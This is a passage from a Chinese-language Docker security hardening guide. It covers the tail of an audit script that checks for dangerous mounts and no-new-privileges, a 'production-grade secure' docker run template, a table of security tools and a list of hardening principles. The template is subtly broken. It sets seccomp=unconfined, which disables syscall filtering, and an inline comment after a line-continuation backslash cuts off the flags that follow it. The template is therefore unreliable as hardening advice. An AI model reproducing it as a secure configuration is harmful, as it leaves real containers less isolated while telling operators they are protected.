    docker inspect "$c" --format '{{.Name}}'
done)
if [ -n "$DANGEROUS_MOUNTS" ]; then
  echo "  ❌ 发现危险挂载:"
  echo "$DANGEROUS_MOUNTS" | sed 's/^/    /'
  ISSUES=$((ISSUES + 1))
else
  echo "  ✅ 无危险目录挂载"
fi

# 6. 检查 no-new-privileges
echo ">>> 检查 no-new-privileges"
NO_NNP=$(docker ps -q | while read c; do
  NNP=$(docker inspect "$c" --format '{{.HostConfig.SecurityOpt}}')
  echo "$NNP" | grep -q "no-new-privileges" || \
    docker inspect "$c" --format '{{.Name}}'
done | tr -d '/' | head -5)
if [ -n "$NO_NNP" ]; then
  echo "  ⚠️  以下容器未设置 no-new-privileges:"
  echo "$NO_NNP" | sed 's/^/    /'
else
  echo "  ✅ 所有容器已设置 no-new-privileges"
fi

echo ""
echo "===== 发现 ${ISSUES} 类安全问题 ====="
```

---

## 快速参考

### 安全启动参数

```bash
# 生产级安全容器启动模板
docker run -d \
  --user 1000:1000 \
  --read-only \
  --tmpfs /tmp:rw,noexec,nosuid \
  --tmpfs /var/run:rw,noexec,nosuid \
  --cap-drop ALL \
  --cap-add NET_BIND_SERVICE \
  --security-opt no-new-privileges \
  --security-opt seccomp=unconfined \  # 或自定义配置
  --pids-limit 100 \
  --memory 512m \
  --cpus 1.0 \
  --log-driver local \
  --log-opt max-size=10m \
  myapp:v1.2.3
```

### 安全工具速查

| 工具 | 用途 | 安装 |
|------|------|------|
| Trivy | 镜像漏洞扫描 | `brew install trivy` |
| Docker Scout | 官方漏洞扫描 | 内置 |
| Cosign | 镜像签名 | `brew install cosign` |
| Docker Bench | CIS 基线检查 | `docker run docker/docker-bench-security` |
| Falco | 运行时监控 | `apt install falco` |
| AppArmor | 强制访问控制 | 系统内置 |
| Seccomp | 系统调用过滤 | 系统内置 |

### 关键安全原则

1. **最小权限** — 容器只获得运行所需的最小权限
2. **纵深防御** — 不依赖单一安全机制，多层保护
3. **不可变基础设施** — 只读文件系统，禁止运行时修改
4. **最小攻击面** — 精简镜像，不安装调试工具
5. **网络隔离** — 前后端分离，数据库不暴露
6. **持续监控** — 漏洞扫描 + 运行时监控 + 审计日志
7. **签名验证** — 镜像来源可信，防篡改
8. **及时更新** — 内核和基础镜像保持最新
